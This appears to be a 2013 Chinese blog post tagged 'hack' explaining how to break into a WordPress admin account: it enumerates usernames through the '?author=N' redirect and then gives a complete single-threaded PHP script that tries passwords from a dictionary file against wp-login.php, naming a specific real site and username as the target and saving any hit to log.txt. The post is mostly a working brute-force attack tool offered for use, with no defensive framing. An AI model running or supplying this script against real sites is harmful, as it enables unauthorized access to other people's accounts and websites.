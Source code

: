 title: 暴力破解wordpress后台
tags:
  - hack
id: 886
categories:
  - Hack
date: 2013-09-27 18:37:53
---

主要来源是 wooyun的 [http://wooyun.org/bugs/wooyun-2010-028908](http://wooyun.org/bugs/wooyun-2010-028908)

说说方法，先得到用户名 ，就是通过遍历这个地址的author

[http://www.lufuli.com/?author=1](http://www.lufuli.com/?author=1)

然后会跳转到一个地址，没错了，这个就是用户名。

[![QQ20130928023349](http://7xnueu.com1.z0.glb.clouddn.com/2013/09/QQ20130928023349.png)](http://7xnueu.com1.z0.glb.clouddn.com/2013/09/QQ20130928023349.png) [
](http://7xnueu.com1.z0.glb.clouddn.com/2013/09/QQ20130928023648.png)

然后我使用的是php 写的脚本，遗憾的是只能单线程。

修改一下username，和url，准备字典就跑起来吧。

成功后会自动结束，查看文件log.txt里面有密码。

[![QQ20130928023648](http://7xnueu.com1.z0.glb.clouddn.com/2013/09/QQ20130928023648.png)](http://7xnueu.com1.z0.glb.clouddn.com/2013/09/QQ20130928023648.png)

&nbsp;

&nbsp;

代码直接放这里了。由于vps内存比较小，只能按行读取了。

&lt;?php

$username = "yekai";
$file = fopen('pass.txt','r');
$url = "http://lufuli.com";

while (!feof($file))
{
$now=fgets($file);//读入所有的内容

$PostUrl = $url.'/wp-login.php';
$_Path_status_code = GetHttpStatusCode(Trim($PostUrl));
//echo $PostUrl.' '.$_Path_status_code."\n";
if ('404' == $_Path_status_code)
{
Continue;
}
$username = Trim($username);

$now = Trim($now);
$curlPost = 'log='.$username.'&amp;pwd='.urlencode($now);
$Rs = POST_Data($PostUrl, $curlPost);
$fail_tag = '&lt;strong&gt;'.$username.'&lt;/strong&gt;';
if (stristr($Rs, '&lt;strong&gt;ERROR&lt;/strong&gt;: Invalid username')) # 不存在的用户名跳过猜解
{
Break;
}
if (!stristr($Rs, $fail_tag))
{
file_put_contents("log.txt",$PostUrl.' '.'Password:'.$now.' # Succed!'."\r\n",FILE_APPEND);
exit();
}else{
echo 'Password:'.$now."failed\r\n";
}

}

fclose($file);

&nbsp;

&nbsp;
function GetHttpStatusCode($url){
$curl = curl_init();
curl_setopt($curl,CURLOPT_URL,$url);//获取内容url
curl_setopt($curl,CURLOPT_HEADER,1);//获取http头信息
curl_setopt($curl,CURLOPT_NOBODY,1);//不返回html的body信息
curl_setopt($curl,CURLOPT_RETURNTRANSFER,1);//返回数据流，不直接输出
curl_setopt($curl,CURLOPT_TIMEOUT,3); //超时时长，单位秒
curl_exec($curl);
$rtn= curl_getinfo($curl,CURLINFO_HTTP_CODE);
curl_close($curl);
return $rtn;
}
function POST_Data($PostUrl, $DATA)
{
$ch = curl_init();//初始化curl
curl_setopt($ch,CURLOPT_URL, $PostUrl);//抓取指定网页
curl_setopt($ch, CURLOPT_HEADER, 0);//设置header
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);//要求结果为字符串且输出到屏幕上
curl_setopt($ch, CURLOPT_POST, 1);//post提交方式
curl_setopt($ch, CURLOPT_POSTFIELDS, $DATA);
$data = curl_exec($ch);//运行curl
curl_close($ch);
return $data;//输出结果
}
?&gt;

&nbsp;

&nbsp;